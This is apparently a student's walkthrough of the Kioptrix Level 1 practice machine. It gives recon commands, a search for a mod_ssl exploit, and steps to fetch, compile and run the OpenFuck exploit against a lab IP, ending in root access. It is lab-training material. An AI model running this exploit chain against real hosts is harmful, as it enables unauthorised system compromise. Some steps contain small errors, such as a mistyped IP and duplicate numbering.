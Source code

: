 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/pentesting/05-mar-wednesday/kioptrix-level-1/"}
---
```


# **Kioptrix Level 1**

1) ifconfig {note down your ip}
2) net discover -r 192.168.5.60(your ip )
![attachments/Pasted image 20250319185539.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319185539.png)

3) nmap -Pn 192.168.5.203  {to find the target ip }
![attachments/Pasted image 20250319190100.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190100.png)

4) nmap -T4 -sC -sV -v -Pn 192.168.5.203 -oN kioptrix
![attachments/Pasted image 20250319190124.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190124.png)

5) cat kioptrix | grep open
![attachments/Pasted image 20250319190134.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190134.png)

6) disable the burp in firefox
![attachments/Pasted image 20250319190148.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190148.png)

7) hit the target ip in firebox browswer : 192.168.5.203
![attachments/Pasted image 20250319190206.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190206.png)

8) nikto -h http://192.168.5.203
![attachments/Pasted image 20250319190218.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190218.png)

9) nikto -h http://192.169.5.203
![attachments/Pasted image 20250319190229.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190229.png)

10) nikto -h http://192.168.5.203 > kiopritix_nikto → then control+c
![attachments/Pasted image 20250319190244.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190244.png)

11) searchsploit mod ssl 2.8.4
![attachments/Pasted image 20250319190257.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190257.png)

12) searchsploit -m 47080
![attachments/Pasted image 20250319190308.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190308.png)

13) apt update
14) open github link in firefox of kali : [openfuck github link](https://github.com/RafaelM1994/InfoSec/blob/master/c_files/openfuck_updated.c) and download.
![attachments/Pasted image 20250319190335.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190335.png)

15) apt-get install libssl-dev
16) cd Downloads -> ls -l
![attachments/Pasted image 20250319190355.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190355.png)

17) gcc -o openfuck openfuck_updated.c -lcrypto
![attachments/Pasted image 20250319190418.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190418.png)

18) ./openfuck 0x6b 192.168.5.203 443 -c 40
![attachments/Pasted image 20250319190430.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190430.png)

19) type id
![attachments/Pasted image 20250319190440.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190440.png)
- you got the root access !! 👾🥷🔪

19) nano 47080.c
![attachments/Pasted image 20250319190505.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190505.png)

20) then ctrl + F → https
![attachments/Pasted image 20250319190523.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190523.png)

21) edit the https → http → ctrl +s → ctrl + x
![attachments/Pasted image 20250319190540.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190540.png)

22) ./openfuck 0x6b 192.168.5.203 443 -c 40
![attachments/Pasted image 20250319190552.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190552.png)

23) type id
![attachments/Pasted image 20250319190604.png](/img/user/Cybersecurity/Pentesting/05%20Mar%20(Wednesday)/attachments/Pasted%20image%2020250319190604.png)

#                                    ---****---

